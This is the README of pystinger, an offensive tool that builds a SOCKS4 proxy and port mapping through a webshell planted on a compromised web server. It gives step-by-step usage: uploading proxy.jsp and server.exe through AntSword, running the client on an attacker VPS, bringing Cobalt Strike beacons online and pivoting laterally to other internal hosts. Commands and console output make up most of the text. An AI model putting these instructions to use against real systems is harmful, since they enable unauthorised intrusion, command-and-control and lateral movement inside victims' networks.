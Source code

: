 # pystinger

English | [简体中文](./.github/docs/readme_cn.md) 

Pystinger implements **SOCK4 proxy** and **port mapping** through webshell.

It can be directly used by metasploit-framework, viper, cobalt strike for session online.

Pystinger is developed in python, and currently supports three proxy scripts: php, jsp(x) and aspx.


# Usage
> Suppose the domain name of the server is [http://example.com:8080](http://192.168.3.11:8080) The intranet IPAddress of the server intranet is 192.168.3.11

## SOCK4 Proxy


* ```proxy.jsp``` Upload to the target server and ensure that [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) can access,the page returns ```UTF-8```
* ```server.exe``` Upload to the target server,AntSword run cmd```start D:/XXX/server.exe```to start pystinger-server
> Don't run ```D:/xxx/server.exe``` directly,it will cause TCP disconnection
* Run ```./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000``` on your VPS
* Your will see following output
```
root@kali:~# ./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* Now you have started a *socks4a proxy* on VPS ```127.0.0.1:60000``` for intranet of ```example.com```.
* Now the target server(```example.com```) ```127.0.0.1:60020``` has been mapped to the VPS ``` 127.0.0.1:60020```

## cobaltstrike`s beacon online for single target

* ```proxy.jsp``` Upload to the target server and ensure that [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) can access,the page returns ```UTF-8```
* ```server.exe``` Upload to the target server,AntSword run cmd```start D:/XXX/server.exe```to start pystinger-server
> Don't run ```D:/xxx/server.exe``` directly,it will cause TCP disconnection
* Run ```./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000``` on your VPS
* Your will see following output
```
root@kali:~# ./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* Add listener on cobaltstrike,Listener port is ```60020``` (Handler/LISTEN port in ```RAT CONFIG``` of output ),listener address is ```127.0.0.1```
* Generate payload,upload to the target and run.

## cobaltstrike`s beacon online for multi targets

* ```proxy.jsp``` Upload to the target server and ensure that [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) can access,the page returns ```UTF-8```
* ```server.exe``` Upload to the target server,AntSword run cmd```start D:/XXX/server.exe  192.168.3.11```to start pystinger-server (192.168.3.11 is intranet ipaddress of the target)
> 192.168.3.11 can change to 0.0.0.0
* Run ```./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000``` on your VPS
* Your will see following output
```
root@kali:~# ./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 192.168.3.11:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* Add listener on cobaltstrike,Listener port is ```60020``` (Handler/LISTEN port in ```RAT CONFIG``` of output ),listener address is ```192.168.3.11```
* Generate payload,upload to the target and run.
* When lateral movement to other hosts, you can point the payload to 192.168.3.11:60020 to make beacon online

## Custom header and proxy
* If the webshell needs to configure cookie or authorization, the request header can be configured through the -- header parameter
```--header "Authorization: XXXXXX,Cookie: XXXXX"```

* If the webshell needs to be accessed by proxy, you can set the proxy through -- proxy
```--proxy "socks5:127.0.0.1:1081"```

# Related tools
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)

# Tested
## server\client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0

# Update log
**2.0**
Update time: 2019-09-29
* Socks4 proxy service moves to client

**2.1**
Update time: 2020-01-07
* Support cobaltstrike online (port mapping)

The development is supported by the software from jetbrains.</br>
https://www.jetbrains.com/?from=pystinger

<a href="https://www.jetbrains.com/?from=pystinger" target="_blank">
  <img src=".github/images/jetbrains.svg">
</a>
